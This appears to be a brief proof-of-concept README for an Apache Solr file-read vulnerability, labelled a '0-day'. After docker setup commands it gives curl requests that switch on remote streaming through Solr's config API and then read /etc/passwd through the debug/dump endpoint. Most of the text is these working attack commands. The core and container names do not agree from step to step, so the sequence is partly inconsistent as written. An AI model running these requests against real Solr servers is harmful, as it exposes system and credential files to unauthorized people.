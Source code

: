 #Apache Solr 0-day

## Hacked by: https://mp.weixin.qq.com/s/3WuWUGO61gM0dBpwqTfenQ 
## References: https://solr.apache.org/guide/8_8/requestdispatcher-in-solrconfig.html

```
# stand up test on docker
docker run --name solrbear -d -p 8983:8983 -t solr
docker start solrbear
docker exec -it --user solr first_solr bin/solr create_core -c checkcorea

# push some data
curl -X POST -d '{"add":{ "doc":{"id":"delete.me","title":"change.me"}}}' -H "Content-Type: application/json" http://localhost:8983/solr/checkcorea/update?commit=true

# reload
curl -X POST http://localhost:8983/solr/admin/cores?core=first_core&action=RELOAD

# Enable remote stream
TARGET="localhost:8983"
curl -d '{"set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}' http://$TARGET/solr/movie/config -H 'Content-type:application/json'

# Exploit

curl "http://$TARGET/solr/movie/debug/dump?param=ContentStreams" -F "stream.url=file:///etc/passwd"

```

